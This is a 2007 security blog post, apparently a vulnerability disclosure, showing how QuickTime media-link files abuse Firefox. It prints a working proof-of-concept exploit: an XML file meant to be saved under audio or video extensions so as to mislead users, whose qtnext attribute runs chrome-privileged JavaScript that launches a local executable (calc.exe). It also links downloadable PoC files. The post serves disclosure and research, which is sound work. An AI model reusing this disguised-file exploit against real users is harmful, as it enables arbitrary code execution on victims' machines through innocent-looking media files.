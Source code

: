 ```yaml
---
title: 0DAY QuickTime pwns Firefox
author: petko-d-petkov
date: Wed, 12 Sep 2007 12:05:53 GMT
template: post.jade
category: fucked
---
```


It seams that QuickTime media formats can cause Firefox to misbehave. The result of this vulnerability can lead to full compromise of the browser.

Before we move on, I have to say a few things. Last year I disclosed two QuickTime vulnerabilities [here](/blog/backdooring-quicktime-movies/) and [here](/blog/backdooring-mp3-files/). The first vulnerability was fixed but the second one was completely ignored. I tried to bring the spot light on the second vulnerability one more time over [here](/blog/myspace-quicktime-worm-follow-up) without much of success. So, I decided to post a demonstration of how a _Low risk_ issue can be turned into a very easy to perform **HIGH risk** attack when technology change.

The exploit is rather simple. But first, here is a simple QTL file which instructs the browser to display a friendly `alert('whats up...')` message on the screen:

```xml
<?xml version="1.0">
<?quicktime type="application/x-quicktime-media-link"?>
<embed src="presentation.mov" autoplay="true" qtnext="javascript:alert('whats up...')"/>
```

The most interesting thing about this simple XML file is that we can save it with QuickTime supported extension in order to mislead the user. If you check [about:plugins](about:plugins) under Firefox,  you will see that QuickTime supports several media formats. We can use the audio and video formats only. This means that you can paste the above code into files with extensions: `3g2, 3gp, 3gp2, 3gpp, AMR, aac, adts, aif, aifc, aiff, amc, au, avi, bwf, caf, cdda, cel, flc, fli, gsm, m15, m1a, m1s, m1v, m2a, m4a, m4b, m4p, m4v, m75, mac, mov, mp2, mp3, mp4, mpa, mpeg, mpg, mpm, mpv, mqv, pct, pic, pict, png, pnt, pntg, qcp, qt, qti, qtif, rgb, rts, rtsp, sdp, sdv, sgi, snd, ulw, vfw, wav` and others.

Enough theory, let's see some action. For more information, just read [this](/blog/backdooring-mp3-files/) blog post. The exploit that gains chrome privileges looks like this:

```xml
<?xml version="1.0">
<?quicktime type="application/x-quicktime-media-link"?>
<embed src="a.mp3" autoplay="true" qtnext="-chrome javascript:file=Components.classes['@mozilla.org/file/local;1'].createInstance(Components.interfaces.nsILocalFile);file.initWithPath('c:\\windows\\system32\\calc.exe');process=Components.classes['@mozilla.org/process/util;1'].createInstance(Components.interfaces.nsIProcess);process.init(file);process.run(true,[],0);void(0);"/>
```

In practice I can do anything with the browser. However, just for the sake of this demonstration, I simply open **calc.exe**.

If you dare to try this in your browser, here is a list of a few files you have to click on. They are not malicious. You have my word: [qt-poc-01.mp3](/files/2007/09/qt-poc-01.mp3), [qt-poc-02-shutdown-dont-click.mp3](/files/2007/09/qt-poc-02-shutdown-dont-click.mp3), [qt-poc-03.mpeg](/files/2007/09/qt-poc-03.mpeg), [qt-poc-04.mov](/files/2007/09/qt-poc-04.mov), [qt-poc-05.avi](/files/2007/09/qt-poc-05.avi).

_BTW, QuickTime comes by default with iTunes. Therefore, iTunes users are most affected, I believe._
